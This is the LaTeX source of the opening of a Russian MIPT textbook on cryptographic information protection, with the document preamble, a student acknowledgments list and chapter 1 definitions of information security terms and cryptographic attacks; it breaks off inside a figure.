\documentclass[10pt,a4paper,openany]{book}
% Версия PDF для генерации -- 1.6
\pdfminorversion=6
% Векторные русских шрифтов в PDF
% Необходимо установить также пакеты cm-super и cm-unicode
\usepackage{cmap}
\usepackage[X2, T2A]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english,french,german,italian,russian]{babel}
\usepackage{indentfirst}                % Красная строка в первом абзаце
% Подключение amsmath также даёт поддержку автоматических \dots
% см. http://tex.stackexchange.com/questions/77737/dots-versus-ldots-is-there-a-difference
% см. http://tex.stackexchange.com/questions/117730/what-is-the-difference-between-ldots-and-cdots
\usepackage{amsmath} % разрешить \texttt и аналогичные в формулах
\usepackage{amssymb} % дополнительные математические символы
\usepackage{graphicx} % поддержка изображений

%\usepackage{amsfonts, eucal, bm, color, }

\usepackage{algorithm, algorithmic}     % 'algorithm' environments
\floatname{algorithm}{Алгоритм}

\usepackage{array}                      % Новые команды для работы с таблицами, см. также ниже доопределение стилей ячеек L, C, R
\usepackage{arydshln}                   % dash lines in tables
\usepackage{caption}                    % titles for figures
\usepackage{cjhebrew}
\usepackage{csquotes}                   % для оформления цитат
\usepackage{enumerate}
\usepackage{enumitem}                   % кастомизация itemize/enumerate, напр. отказ от indent
\usepackage{fancybox}                   % страница в рамке
\usepackage{float}			% sub figures
\usepackage[totoc=true]{idxlayout}      % балансировка индексов на последней странице, индекс в ToC
\usepackage{import}
\usepackage{lscape}                     % поддержка поворота страниц на 90 градусов для широких таблиц
\usepackage{microtype}                  % запретить выходить за границы страницы
\usepackage{multicol}                   % поддержка колонок
\setlength{\columnsep}{0.1cm}
\usepackage{multirow}                   % multirow cells in tables
\usepackage{pgf-umlsd}          % UML Sequence Diagramms
%\usepackage{subfig}			% sub figures
\usepackage{subcaption}         % sub figures, incompatible with package{subfig}
\usepackage{tablefootnote}		% footnote в таблицах
\usepackage{textcomp}                   % \No support
\usepackage{tikz}                       % векторная графика внутри TeX
\usepackage{wrapfig}			% sub figures


\usepackage[left=1.84cm, right=1.5cm, paperwidth=14cm, top=1.8cm, bottom=2cm, height=19.8cm, paperheight=20cm]{geometry}

% Необходимо установить biblatex-gost
% и переключить сборку библиографии на biber
\usepackage[parentracker=true,
  backend=biber,
  hyperref=auto,
  language=auto,
  autolang=other,
  citestyle=gost-numeric,
  defernumbers=true,
  bibstyle=gost-numeric,
  sortlocale=ru_RU
]{biblatex}								% библиография по ГОСТу

%Patch for Package inputenc Error: Unicode character
\DefineBibliographyStrings{russian}{%
number = {\textnumero}%
}

\newcommand{\printusedliterature}{%
\sloppy\printbibliography[heading=bibintoc,title={Литература}]%
}

\newcommand{\indexchapter}[1]{%
\chapter*{#1}%
\addcontentsline{toc}{chapter}{#1}%
}
\usepackage[xindy]{imakeidx}
\makeindex[program=texindy, options=-M mystyle.xdy -L russian -C utf8]
\indexsetup{level=\indexchapter,toclevel=chapter}

\let\oldindex\index

\makeatletter
\renewcommand{\index}[2][\imki@jobname]{%
	\oldindex[#1]{\detokenize{#2}}%
}
\makeatother

% поддержка гиперссылок; гиперссылки в pdf, должен быть последним загруженным пакетом
\ifx\pdfoutput\undefined
    \usepackage[unicode,dvips]{hyperref}
\else
    \usepackage[pdftex,colorlinks,unicode,bookmarks]{hyperref}
\fi

%\paperwidth=16.8cm \oddsidemargin=0cm \evensidemargin=0cm \hoffset=-0.33cm \textwidth=13.2cm
%\paperheight=24cm \voffset=-0.4cm \topmargin=0cm \headsep=0cm \headheight=0cm \textheight=19.8cm \footskip=0.9cm

% параметры PDF файла
\hypersetup{
    pdftitle={Криптографические методы защиты информации},
    pdfauthor={С. М. Владимиров, Э. М. Габидулин, А. И. Колыбельников, А. С. Кшевецкий},
    pdfsubject=учебное пособие,
    pdfkeywords={защита информации, криптография, криптографические протоколы, МФТИ}
}

% добавить точку после номера секции, раздела и~т.\,д.
\makeatletter
\def\@seccntformat#1{\csname the#1\endcsname.\quad}
\def\numberline#1{\hb@xt@\@tempdima{#1\if&#1&\else.\fi\hfil}}
\makeatother

% перенос слов с тире
%\lccode`\-=`\-
%\defaulthyphenchar=127

% изменить подписи к рисункам, таблицам и~т.\,д.
\captionsetup{labelsep=endash}          % Нумерационный заголовок и текст разделяются тире
\captionsetup{textformat=simple}        % Текст подписи будет напечатан как есть
%\captionsetup[table]{position=above}    % вертикальные отступы подписи таблицы для случая, когда подпись вверху
%\captionsetup[figure]{position=below}   % вертикальные отступы подписи рисунка для случая, когда подпись внизу

\newtheorem{theorem}{Теорема}[section]
\newtheorem{lemma}[theorem]{Лемма}
\newtheorem{definition}[theorem]{Определение}
\newtheorem{property}[theorem]{Утверждение}
\newtheorem{corollary}[theorem]{Следствие}
%\newtheorem{algorithm}[theorem]{Алгоритм}
\newtheorem{remark}[theorem]{Замечание}
\newcommand{\proof}{\noindent\textsc{Доказательство.\ }}

%\newtheorem{example}{\textsc{\textbf{Пример}}}
\newcommand{\example}{\textsc{\textbf{Пример.}} }
\newcommand{\exampleend}

\DeclareMathOperator{\ord}{ord}
\newcommand{\set}[1]{\mathbb{#1}}
\newcommand{\group}[1]{\mathbb{#1}}
\newcommand{\E}{\group{E}}
\newcommand{\F}{\group{F}}
\newcommand{\GF}[1]{\group{GF}(#1)}
\newcommand{\Gr}{\group{G}}
\newcommand{\Mod}{\operatorname{mod}}
\newcommand{\R}{\group{R}}
\newcommand{\Z}{\group{Z}}
\newcommand{\MAC}{\textrm{MAC}}
\newcommand{\HMAC}{\textrm{HMAC}}
\newcommand{\PK}{\textrm{PK}}
\newcommand{\SK}{\textrm{SK}}

\newcommand{\langda}[1]{дат. \foreignlanguage{danish}{\textit{#1}}}
\newcommand{\langde}[1]{нем. \foreignlanguage{german}{\textit{#1}}}
\newcommand{\langfr}[1]{фр. \foreignlanguage{french}{\textit{#1}}}
\newcommand{\langen}[1]{англ. \foreignlanguage{english}{\textit{#1}}}
\newcommand{\langit}[1]{итал. \foreignlanguage{italian}{\textit{#1}}}
\newcommand{\langlat}[1]{лат. \foreignlanguage{italian}{\textit{#1}}}

% Русская типографика
\renewcommand\leq{\leqslant}
\renewcommand\geq{\geqslant}
\renewcommand\emptyset{\varnothing}
\renewcommand\kappa{\varkappa}
\renewcommand\epsilon{\varepsilon}
\renewcommand\phi{\varphi}
\renewcommand*{\No}{\textnumero}

% Для раздела с задачами
\newcommand{\taskinit}{\newcounter{task-section}\setcounter{task-section}{0}\newcounter{task-number}}
\newcommand{\tasksection}{\addtocounter{task-section}{1}\setcounter{task-number}{0}}
\newcommand{\tasknumber}{\textbf{\No\addtocounter{task-number}{1}\arabic{task-section}.\arabic{task-number}.}~~}

%Наконец, существует способ дублировать знаки операций, который мы приведём безо всяких пояснений. Включив
%\newcommand*{\hm}[1]{#1\nobreak\discretionary{}{\hbox{\mathsurround=0pt #1}}{}}
%в преамбулу, можно написать $a\hm+b\hm+c\hm+d$, при этом в формуле a\hm+b\hm+c\hm+d при переносе знак + будет продублирован.

% Дублирование символов бинарных операций ("+", "-", "="), набранных в строчных формулах, при переносе на другую строку:
%%begin{latexonly}
%\renewcommand\ne{\mathchar"3236\mathchar"303D\nobreak
%      \discretionary{}{\usefont
%      {OMS}{cmsy}{m}{n}\char"36\usefont
%      {OT1}{cmr}{m}{n}\char"3D}{}}
%\begingroup
%\catcode`\+\active\gdef+{\mathchar8235\nobreak\discretionary{}%
% {\usefont{OT1}{cmr}{m}{n}\char43}{}}
%\catcode`\-\active\gdef-{\mathchar8704\nobreak\discretionary{}%
% {\usefont{OMS}{cmsy}{m}{n}\char0}{}}
%\catcode`\=\active\gdef={\mathchar12349\nobreak\discretionary{}%
% {\usefont{OT1}{cmr}{m}{n}\char61}{}}
%\endgroup
%\def\cdot{\mathchar8705\nobreak\discretionary{}%
% {\usefont{OMS}{cmsy}{m}{n}\char1}{}}
%\def\times{\mathchar8706\nobreak\discretionary{}%
% {\usefont{OMS}{cmsy}{m}{n}\char2}{}}
%\mathcode`\==32768
%\mathcode`\+=32768
%\mathcode`\-=32768
%%end{latexonly}

% Упрощение создания таблиц с длинным текстом в ячейках
\newcolumntype{L}[1]{>{\raggedright\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\newcolumntype{C}[1]{>{\centering\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\newcolumntype{R}[1]{>{\raggedleft\let\newline\\\arraybackslash\hspace{0pt}}m{#1}} 

% Рекомендация для latex'а не разрывать inline-формулы
\binoppenalty=9999
\relpenalty=9999

% Рекомендация разрешать делать пробелы вместо слов, выезжающих за границы строк
\emergencystretch=10em

% Упрощение ввода некоторых иностранных слов
\newcommand{\blockchain}{\foreignlanguage{english}{block\-chain}}

\addbibresource{bibliography.bib}

\title{Криптографические методы \\ защиты информации \\ \bigskip \normalsize{Учебное пособие}}
\author{Владимиров Сергей Михайлович \\ Габидулин Эрнст Мухамедович \\ Колыбельников Александр Иванович \\ Кшевецкий Александр Сергеевич}
\date{\bigskip \bigskip \bigskip \bigskip \bigskip \today \bigskip \\ \small{черновой вариант третьего издания}}

\begin{document}
\selectlanguage{russian}

\maketitle
\setcounter{page}{3}

\newpage
%\thispagestyle{empty}
\setcounter{tocdepth}{2}
\tableofcontents
%\thispagestyle{empty}
\newpage

%\lhead[\leftmark]{}
%\rhead[]{\rightmark}

\chapter*{Предисловие}
\addcontentsline{toc}{chapter}{Предисловие}
\markboth{ПРЕДИСЛОВИЕ}{ПРЕДИСЛОВИЕ}
\selectlanguage{russian}

В настоящем пособии рассмотрены только основные математические методы защиты информации, и среди них главный акцент сделан на криптографическую защиту, которая включает симметричные и несимметричные методы шифрования, формирование секретных ключей, протоколы ограничения доступа и аутентификации сообщений и пользователей. Кроме того, в пособии рассматриваются типовые уязвимости операционных и информационно-вычислительных систем.

\section*{Благодарности}
\addcontentsline{toc}{section}{Благодарности}
Авторы пособия благодарят студентов, аспирантов и сотрудников Московского физико-технического института (государственного университета), которые помогли с подготовкой, редактированием и поиском ошибок в тексте.

\setlength{\columnsep}{0.5em}
\begin{multicols}{2}
\begin{small}
\begin{itemize}[leftmargin=0.5em]\itemsep1pt \parskip0pt \parsep0pt

	\item[] Владимир Аверьянов\begin{tiny} (201-113 гр.)\end{tiny} %rfoofr
	\item[] Руслан Агишев\begin{tiny} (201-314 гр.)\end{tiny} %agruslan

	\item[] Алипаша Бабаев\begin{tiny} (201-311 гр.)\end{tiny} %alishnik
	\item[] Олег Бабин\begin{tiny} (201-415 гр.)\end{tiny} %olegrok
	\item[] Татьяна Бакланова\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Дмитрий Банков\begin{tiny} (201-011 гр.)\end{tiny}
	\item[] Александр Белов\begin{tiny} (201-214 гр.)\end{tiny}
	\item[] Даниил Бершацкий\begin{tiny} (201-012 гр.)\end{tiny}
	\item[] Анастасия Бодрова\begin{tiny} (201-218 гр.)\end{tiny} %AnastasiaBodrova
	\item[] Дмитрий Бородий\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Евгений Брицын\begin{tiny} (201-312 гр.)\end{tiny} %ebritsyn
	\item[] Олег Бусловский\begin{tiny} (201-219 гр.)\end{tiny} %oledzzka

	\item[] Вадим Варнавский\begin{tiny} (201-213 гр.)\end{tiny}
	\item[] Илья Васильев\begin{tiny} (201-217 гр.)\end{tiny}
	\item[] Эмиль Вахитов\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Дмитрий Вербицкий\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Константин Виноградов\begin{tiny} (201-114 гр.)\end{tiny} %Vikont133

	\item[] Тагир Гадельшин\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Марат Гаджибутаев\begin{tiny} (201-018 гр.)\end{tiny}
	\item[] Тимур Газизов\begin{tiny} (201-317 гр.)\end{tiny} %RiderOnTheStorm
	\item[] Ильназ Гараев\begin{tiny} (201-113 гр.)\end{tiny}
	\item[] Евгений Глушков\begin{tiny} (201-012 гр.)\end{tiny}
	\item[] Иван Голованов\begin{tiny} (201-312 гр.)\end{tiny} %ivangolovanov; legendawes, legendawes1
	\item[] Андрей Горбунов\begin{tiny} (201-116 гр.)\end{tiny} %goriand
	\item[] Елена Гундрова\begin{tiny} (201-214 гр.)\end{tiny}
	\item[] Алексей Гусаров\begin{tiny} (201-216 гр.)\end{tiny}
	\item[] Наталья Гусева\begin{tiny} (201-216 гр.)\end{tiny} %g-n-ev

	\item[] Андрей Диденко\begin{tiny} (201-311 гр.)\end{tiny} %DidenkoAndre
	\item[] Олег Дробот\begin{tiny} (201-317 гр.)\end{tiny} %tobord

	\item[] Дмитрий Ермилов\begin{tiny} (201-311 гр.)\end{tiny} %schnee-katze

	\item[] Сергей Жестков\begin{tiny} (201-013 гр.)\end{tiny}
	\item[] Андрей Житов\begin{tiny} (201-114 гр.)\end{tiny} %zhitHappens

	\item[] Виталий Занкин\begin{tiny} (201-111 гр.)\end{tiny} %zankin
	\item[] Дмитрий Зборовский\begin{tiny} (201-119 гр.)\end{tiny}

	\item[] Марат Ибрагимов\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Александр Иванов\begin{tiny} (201-011 гр.)\end{tiny}
	\item[] Александр Иванов\begin{tiny} (201-019 гр.)\end{tiny}
	\item[] Атнер Иванов\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Владимир Ивашкин\begin{tiny} (201-112 гр.)\end{tiny}

	\item[] Ирина Камалова\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Иван Киселёв\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Константин Ковальков\begin{tiny} (201-015 гр.)\end{tiny}
	\item[] Николай Козырский\begin{tiny} (201-417 гр.)\end{tiny} %NikolayKozyrskiy
	\item[] Федор Константинов\begin{tiny} (201-312 гр.)\end{tiny} %FRaKTT
	\item[] Роман Козак\begin{tiny} (201-519 гр.)\end{tiny}%(no github account, via VK)
	\item[] Анастасия Коробкина\begin{tiny} (201-312 гр.)\end{tiny} %korobkina
	\item[] Илья Копцов\begin{tiny} (201-115 гр.)\end{tiny} %IlyaKoptsov
	\item[] Андрей Кочетыгов\begin{tiny} (201-111 гр.)\end{tiny} %anko1774
	\item[] Сергей Кошечкин\begin{tiny} (201-213 гр.)\end{tiny}
	\item[] Александр Кравцов\begin{tiny} (201-116 гр.)\end{tiny}
	\item[] Анастасия Красавина\begin{tiny} (201-217 гр.)\end{tiny} %akrasavina
	\item[] Татьяна Красавина\begin{tiny} (201-214 гр.)\end{tiny} %tkrasav
	\item[] Виталий Крепак\begin{tiny} (201-013 гр.)\end{tiny}
	\item[] Егор Кривов\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Александр Кротов\begin{tiny} (201-011 гр.)\end{tiny}
	\item[] Ефим Крохин\begin{tiny} (201-217 гр.)\end{tiny} %Yefim-Krokhin
	\item[] Станислав Круглик\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Павел Крюков\begin{tiny} (200-916 гр.)\end{tiny} %pavelkryukov
	\item[] Аркадий Кудашов\begin{tiny} (201-317 гр.)\end{tiny} %ark85
	\item[] Денис Кудяков\begin{tiny} (201-314 гр.)\end{tiny} %Denis7775
	\item[] Егор Кузнецов\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Зулкаид Курбанов\begin{tiny} (201-113 гр.)\end{tiny}

	\item[] Всеволод Ливинский\begin{tiny} (201-216 гр.)\end{tiny} %Vsevolod-Livinskij
	\item[] Артемий Лузянин\begin{tiny} (201-312 гр.)\end{tiny} %artemluzyanin

	\item[] Егор Макарычев\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Иван Макеев\begin{tiny} (201-212 гр.)\end{tiny} %katala777
	\item[] Ольга Малюгина\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Алексей Мамаков\begin{tiny} (201-113 гр.)\end{tiny} %AlekseyMamakov
	\item[] Роман Маракулин\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Андрей Мартыненко\begin{tiny} (201-312 гр.)\end{tiny}
	\item[] Александр Матков\begin{tiny} (201-314 гр.)\end{tiny} %alexmatkov
	\item[] Иосиф Меньшиков\begin{tiny} (201-719 гр.)\end{tiny}	%X-Mass
	\item[] Артём Меринов\begin{tiny} (201-214 гр.)\end{tiny}
	\item[] Даниил Меркулов\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Олег Милосердов\begin{tiny} (201-016 гр.)\end{tiny}
	\item[] Дао Куанг Минь\begin{tiny} (201-116 гр.)\end{tiny}
	\item[] Антон Митрохин\begin{tiny} (201-216 гр.)\end{tiny} %ncos
	\item[] Надежда Мозолина\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Дарья Мороз\begin{tiny} (201-318 гр.)\end{tiny} %moryshka

	\item[] Хыу Чунг Нгуен\begin{tiny} (201-015 гр.)\end{tiny} %huutrung
	\item[] Артём Никитин\begin{tiny} (201-012 гр.)\end{tiny}
	\item[] Евгения Никольская\begin{tiny} (201-115 гр.)\end{tiny} %EvgeniyaNikolskaya

	\item[] Александр Ометов\begin{tiny} (201-113 гр.)\end{tiny} %Ozzmorn
	\item[] Даниил Охлопков\begin{tiny} (201-311 гр.)\end{tiny}

	\item[] Александр Парамонов\begin{tiny} (201-416 гр.)\end{tiny} %AleksandrParamonov
	\item[] Дмитрий Паршин\begin{tiny} (201-313 гр.)\end{tiny} %dmitryparshin
	\item[] Даниил Похачевский\begin{tiny} (201-519 гр.)\end{tiny} %pokhachevskiy
	\item[] Роман Проскин\begin{tiny} (201-316 гр.)\end{tiny} %opomuc
	\item[] Андрей Пунь\begin{tiny} (201-013 гр.)\end{tiny}

	\item[] Дмитрий Радкевич\begin{tiny} (201-316 гр.)\end{tiny} %radkevichdmitriy
	\item[] Артём Рудой\begin{tiny} (201-211 гр.)\end{tiny} %artemrudoj
	\item[] Сергей Рудаков\begin{tiny} (201-219 гр.)\end{tiny} %Shytnichok

	\item[] Вадим Сафронов\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Евгения Сахно\begin{tiny} (201-317 гр.)\end{tiny} %EvgenyaSakhno
	\item[] Иван Саюшев\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Александр Сергеев\begin{tiny} (201-318 гр.)\end{tiny} %sanekas
	\item[] Всеволод Сергеев\begin{tiny} (201-212 гр.)\end{tiny} %VsevolodSergeev
	\item[] Григорий Соболь\begin{tiny} (201-316 гр.)\end{tiny} %grishasobol
	\item[] Иван Соколов\begin{tiny} (201-314 гр.)\end{tiny} %vansokol
	\item[] Илья Соломатин\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Игорь Сорокин\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Вера Сосновик\begin{tiny} (201-214 гр.)\end{tiny} %Sosnovik
	\item[] Игорь Степанов\begin{tiny} (201-213 гр.)\end{tiny}
	\item[] Мария Столяренко\begin{tiny} (201-214 гр.)\end{tiny}
	\item[] Светлана Субботина\begin{tiny} (201-316 гр.)\end{tiny} %sonne122
	\item[] Виктор Сухарев\begin{tiny} (201-114 гр.)\end{tiny} %ViktorSuharev

	\item[] Буй Зуи Тан\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Михаил Тверье\begin{tiny} (201-313 гр.)\end{tiny} %MishaTvr
	\item[] Тимофей Тормагов\begin{tiny} (201-316 гр.)\end{tiny} %tormagov
	\item[] Артём Тучин\begin{tiny} (201-217 гр.)\end{tiny} %tuchart
	\item[] Татьяна Тюпина\begin{tiny} (201-116 гр.)\end{tiny}

	\item[] Сергей Угрюмов\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Илья Улитин\begin{tiny} (201-417 гр.)\end{tiny} %Mobilnik

	\item[] Марсель Файзуллин\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Нияз Фазлыев\begin{tiny} (201-114 гр.)\end{tiny} %NiyazFazliev
	\item[] Айдар Фасхутдинов\begin{tiny} (201-114 гр.)\end{tiny} %aidarfaskh
	\item[] Наталья Федотова\begin{tiny} (201-212 гр.)\end{tiny}
	\item[] Данил Филиппов\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Яков Фиронов\begin{tiny} (201-314 гр.)\end{tiny} %YakovFironov

	\item[] Никита Харичкин\begin{tiny} (201-315 гр.)\end{tiny} %NEKharichkin
	\item[] Тарас Хахулин\begin{tiny} (201-417 гр.)\end{tiny} %Khakhulin
	\item[] Алексей Хацкевич\begin{tiny} (201-211 гр.)\end{tiny}

	\item[] Александра Цветкова\begin{tiny} (201-216 гр.)\end{tiny}

	\item[] Андрей Шишпанов\begin{tiny} (201-316 гр.)\end{tiny} %Shispan

	\item[] Евгений Юлюгин\begin{tiny} (201-916 гр.)\end{tiny}
	\item[] Руслан Юсупов\begin{tiny} (201-211 гр.)\end{tiny}
\end{itemize}
\end{small}
\end{multicols}


\subimport*{history/}{index}

\chapter{Основные понятия и определения}
\selectlanguage{russian}

Изучение курса <<Защита информации>> необходимо начать с определения понятия \emph{<<информация>>}. В теоретической информатике \emph{информация} -- это любые сведения, или цифровые данные, или сообщения, или документы, или файлы, которые могут быть переданы \emph{получателю информации} от \emph{источника информации}. Можно считать, что информация передаётся по какому-либо каналу связи с помощью некоторого носителя, которым может быть, например, распечатка текста, диск или другое устройство хранения информации, система передачи сигналов по оптическим, проводным линиям или радиолиниям связи и~т.\,д.

\emph{Защита информации} -- это\footnote{Строго говоря, определение защиты информации даётся в официальном стандарте ГОСТ Р 50922-2006, <<Защита информации. Основные термины и определения>>~\cite{GOST-50922-2006}, согласно которому \emph{защита информации} -- это деятельность, направленная на предотвращение утечки защищаемой информации, несанкционированных и непреднамеренных воздействий на защищаемую информацию. Однако мы пользуемся определением, основанным на понятии <<безопасность информации>> из того же стандарта: \emph{безопасность информации} -- это состояние защищённости информации, при котором обеспечиваются ее \emph{конфиденциальность}, \emph{доступность} и \emph{целостность}.} обеспечение \emph{целостности}, \emph{конфиденциальности} и \emph{доступности} информации, передаваемой или хранимой в какой-либо форме. Информацию необходимо защищать от нарушения её целостности и конфиденциальности в результате вмешательства \emph{нелегального пользователя}. В российском стандарте ГОСТ Р 50.1.056-2005 приведены следующие определения~\cite{GOST-2005}:
\begin{itemize}
	\item \emph{целостность информации}\index{целостность} -- состояние информации, при котором отсутствует любое ее изменение, либо изменение осуществляется только преднамеренно субъектами, имеющими на него право;
	\item \emph{конфиденциальность}\index{конфиденциальность} -- состояние информации, при котором доступ к ней осуществляют только субъекты, имеющие на него право;
	\item \emph{доступность}\index{доступность} -- состояние информации, при котором субъекты, имеющие права доступа, могут реализовать их беспрепятственно.
\end{itemize}

Другой стандарт ГОСТ Р ИСО/МЭК 13335-1-2006~\cite{GOST-13335-1-2006} определяет \emph{информационную безопасность} как все аспекты, связанные с определением, достижением и поддержанием \emph{конфиденциальности}, \emph{целостности}, \emph{доступности}, \emph{неотказуемости}, \emph{подотчётности}, \emph{аутентичности} и \emph{достоверности} информации или средств ее обработки. То есть в дополнение к предыдущему определению, на защиту информации в области информационных технологий возлагаются дополнительные задачи:
\begin{itemize}
	\item обеспечение \emph{неотказуемости} -- способность удостоверять имевшие место действия или события так, чтобы эти события или действия не могли быть позже отвергнуты;
	\item обеспечение \emph{подотчётности} -- способность однозначно прослеживать действия любого логического объекта;
	\item обеспечение \emph{аутентичности} -- способность гарантировать, что субъект или ресурс идентичны заявленным;\footnote{Аутентичность применяется к таким субъектам, как пользователи, к процессам, системам и информации.}
	\item обеспечение \emph{достоверности} -- способность обеспечивать соответствие предусмотренному поведению и результатам.
\end{itemize}

Стандарт ГОСТ Р 50922-2006~\cite{GOST-50922-2006}, хотя и не вводит прямой классификации методов защиты информации, даёт следующие их определения.
\begin{itemize}
	\item \emph{Правовая защита информации}. Защита информации правовыми методами, включающая в себя разработку законодательных и нормативных правовых документов (актов), регулирующих отношения субъектов по защите информации, применение этих документов (актов), а также надзор и контроль за их исполнением.
	\item \emph{Техническая защита информации; ТЗИ}. Защита информации, заключающаяся в обеспечении некриптографическими методами безопасности информации (данных), подлежащей (подлежащих) защите в соответствии с действующим законодательством, с применением технических, программных и программно-технических средств.
	\item \emph{Криптографическая защита информации}. Защита информации с помощью её криптографического преобразования.
	\item \emph{Физическая защита информации}. Защита информации путём применения организационных мероприятий и совокупности средств, создающих препятствия для проникновения или доступа неуполномоченных физических лиц к объекту защиты.
\end{itemize}

В рамках данного пособия в основном остановимся на криптографических методах защиты информации. Они помогают обеспечить \emph{конфиденциальность} и \emph{аутентичность}. В сочетании с правовыми методами защиты информации они помогают обеспечить \emph{неотказуемость} действий, а в сочетании с техническими -- \emph{целостность информации} и \emph{достоверность}.

При изучении криптографических методов защиты информации используются дополнительные определения. В целом науку о создании, анализе и использовании криптографических методов называют \emph{криптологией}. Её разделяют на \emph{криптографию}, посвящённую разработке и применению криптографических методов, и \emph{криптоанализ}, который занимается поиском уязвимостей в существующих методах. Данное разделение на криптографию и криптоанализ (и, соответственно, разделение на \emph{криптографов} и \emph{криптоаналитиков}) условно, так как создать хороший криптографический метод невозможно без умения анализировать его потенциальные уязвимости, а поиск уязвимостей в современных криптографических методах нельзя осуществить без знания методов их построения.

Попытка криптоаналитика нарушить свойство криптографической системы по обеспечению защиты информации (например, получить информацию вопреки свойству обеспечения конфиденциальности) называется \emph{криптографической атакой} (\emph{криптоатакой}). Если данная попытка оказалась успешной, и свойство было нарушено или может быть нарушено в ближайшем будущем, то такое событие называется \emph{взломом криптосистемы} или \emph{вскрытием криптосистемы}. Конкретный метод криптографической атаки также называется \emph{криптоанализом} (например, линейный криптоанализ, дифференциальный криптоанализ и~т.~д.). Криптосистема называется \emph{криптостойкой}, если число стандартных операций для её взлома превышает возможности современных вычислительных средств в течение всего времени ценности информации (до 100 лет).

Для многих криптографических примитивов существует атака полным перебором\index{атака!полным перебором} или аналогичная, которая подразумевает, что если выполнить очень большое количество определённых операций (по одной на каждое значение из области определения одного из аргументов криптографического метода), то один из результатов укажет непосредственно на способ взлома системы (например, укажет на ключ для нарушения конфиденциальности, обеспечиваемой алгоритмом шифрования, или на допустимый прообраз для функции хеширования, приводящий к нарушению аутентичности и целостности). В этом случае под \emph{взломом криптосистемы} понимается построение алгоритма криптоатаки с количеством операций меньшим, чем планировалось при создании этой криптосистемы (часто, но не всегда, это равно именно количеству операций при атаке полным перебором\footnote{Например, сложность построения второго прообраза для хеш-функций на основе конструкции Меркла~---~Дамгора составляет $2^n / \left|M\right|$ операций, тогда как полный перебор -- $2^n$. См. раздел~\ref{section-stribog}.}). Взлом криптосистемы -- это не обязательно, например, реально осуществлённое извлечение информации, так как количество операций может быть вычислительно недостижимым как в настоящее время, так и в течение всего времени защиты. То есть могут существовать системы, которые формально взломаны, но пока ещё являются криптостойкими.

Далее рассмотрим модель передачи информации с отдельными криптографическими методами.

\section[Модели систем передачи информации]{Модели систем передачи информации с криптографической защитой}\index{канал связи!защищённый|(}\index{канал связи!открытый|(}
\selectlanguage{russian}

Простая модель системы передачи с криптографической защитой представлена на рис.~\ref{pic:model-simple}. На рисунке показаны легальный отправитель, легальный получатель и криптоаналитик, который пытается нарушить безопасность информации в системе. Данные в системе передаются по открытому каналу связи. Можно также говорить, что криптографические преобразования на стороне отправителя и получателя позволили им создать \emph{защищённый канал связи} поверх открытого канала, как показано на рис.~\ref{pic:model-simple-with-channel}.

\begin{figure}[!thb]
	\centering
	
\includegraphics[width=1.0\textwidth]{pic/model-simple}
	\caption{Модель системы передачи информации с криптографической защитой по открытому каналу\label{pic:model-simple}}
\end{figure}

\begin{figure}[!thb]
	\centering
